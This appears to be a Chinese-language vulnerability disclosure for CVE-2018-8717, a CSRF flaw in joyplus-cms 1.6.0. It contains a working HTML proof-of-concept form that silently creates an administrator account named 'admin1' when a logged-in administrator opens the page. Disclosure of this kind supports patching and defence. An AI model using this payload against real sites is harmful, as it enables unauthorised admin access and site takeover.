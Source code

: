 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|joyplus-cms 1.6.0存在CSRF漏洞可增加管理员账户|2018-03-14|yx（yx@5ecurity.cn）|[https://github.com/joyplus/joyplus-cms/](https://github.com/joyplus/joyplus-cms/) | [https://github.com/joyplus/joyplus-cms/](https://github.com/joyplus/joyplus-cms/) |1.6.0 | [CVE-2018-8717](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8717)|  

#### 漏洞概述  

> joyplus-cms 1.6.0存在CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可将普通用户提成为管理员权限。joyplus-cms是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/joyplus/joyplus-cms/issues/419)告知作者。  

### POC实现代码如下：  

> CSRF测试页面代码如下：
``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.126.129/joyplus-cms-master/joyplus-cms/manager/admin_ajax.php?action=save&tab={pre}manager" method="POST">
      <input type="hidden" name="m&#95;id" value="" />
      <input type="hidden" name="flag" value="add" />
      <input type="hidden" name="m&#95;name" value="admin1" />
      <input type="hidden" name="m&#95;password" value="admin1" />
      <input type="hidden" name="m&#95;status" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
